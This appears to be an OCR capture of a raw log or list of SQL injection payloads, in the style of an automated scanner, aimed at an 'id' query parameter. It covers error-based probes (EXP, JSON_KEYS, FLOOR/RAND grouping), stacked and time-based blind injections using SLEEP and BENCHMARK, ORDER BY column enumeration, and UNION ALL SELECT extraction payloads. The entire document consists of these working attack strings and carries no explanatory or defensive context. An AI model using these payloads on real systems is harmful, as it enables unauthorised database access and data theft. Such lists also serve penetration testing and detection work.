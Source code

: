 ```
id=77 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(4269=4269,1))),0x7178626b71,0x78))s), 8446744073709551610, 8446744073709551610)))&limit=20&page=1
id=77 OR (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8760=8760,1))),0x7178626b71,0x78))s), 8446744073709551610, 8446744073709551610)))&limit=20&page=1
id=77 AND EXP(~(SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8641=8641,1))),0x7178626b71,0x78))x))&limit=20&page=1
id=77 OR EXP(~(SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(2397=2397,1))),0x7178626b71,0x78))x))&limit=20&page=1
id=77 AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8518=8518,1))),0x7178626b71)) USING utf8)))&limit=20&page=1
id=77 OR JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x716a6a7871,(SELECT (ELT(3833=3833,1))),0x7178626b71)) USING utf8)))&limit=20&page=1
id=77 AND (SELECT 1418 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(1418=1418,1))),0x7178626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&limit=20&page=1
id=(SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8749=8749,1))),0x7178626b71))&limit=20&page=1

id=77&limit=20&page=1
id=77;SELECT SLEEP(5)#&limit=20&page=1
id=77;SELECT SLEEP(5)&limit=20&page=1
id=77;(SELECT * FROM (SELECT(SLEEP(5)))EdHl)#&limit=20&page=1
id=77;(SELECT * FROM (SELECT(SLEEP(5)))ZPpl)&limit=20&page=1
id=77;SELECT BENCHMARK(5000000,MD5(0x42466471))#&limit=20&page=1
id=77;SELECT BENCHMARK(5000000,MD5(0x4564766d))&limit=20&page=1
id=77 AND (SELECT 5609 FROM (SELECT(SLEEP(5)))svac)&limit=20&page=1
id=77 OR (SELECT 5180 FROM (SELECT(SLEEP(5)))KlbE)&limit=20&page=1
id=77 AND SLEEP(5)&limit=20&page=1
id=77 OR SLEEP(5)&limit=20&page=1
id=77 OR SLEEP(0)&limit=20&page=1
id=77 OR SLEEP(5)&limit=20&page=1
id=77 ORDER BY 1-- fWwV&limit=20&page=1
id=77 ORDER BY 3248-- DyhB&limit=20&page=1
id=77 ORDER BY 10-- ckVt&limit=20&page=1
id=77 ORDER BY 6-- agXS&limit=20&page=1
id=77 ORDER BY 8-- ljCO&limit=20&page=1
id=77 ORDER BY 7-- gRCq&limit=20&page=1

id=77 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a6a7871,0x474b676352535a476a5849456274487961427545526153616262645a556d66437279664d66614955,0x7178626b71),NULL,NULL-- LkWM&limit=20&page=1
id=77 UNION ALL SELECT CONCAT(0x716a6a7871,0x666e54546b7259714b63536c53567a6275775367414d455177674a4c4f494a517670694676486c75,0x7178626b71),NULL,NULL,NULL,NULL,NULL-- AUuu&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL-- feNc&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x5a507853734d786a4362457a446c546b7764656974786748796154777675426742716f6741545342,0x7178626b71),NULL,NULL,NULL-- SgkL&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL FROM (SELECT 0 AS Oshv UNION SELECT 1 UNION SELECT 2 UNION SELECT 3 UNION SELECT 4 UNION SELECT 5 UNION SELECT 6 UNION SELECT 7 UNION SELECT 8 UNION SELECT 9 UNION SELECT 10 UNION SELECT 11 UNION SELECT 12 UNION SELECT 13 UNION SELECT 14) AS ktvq-- UwHx&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,(CASE WHEN (5052=5052) THEN 1 ELSE 0 END),0x7178626b71),NULL,NULL,NULL-- lTkY&limit=20&page=1


```
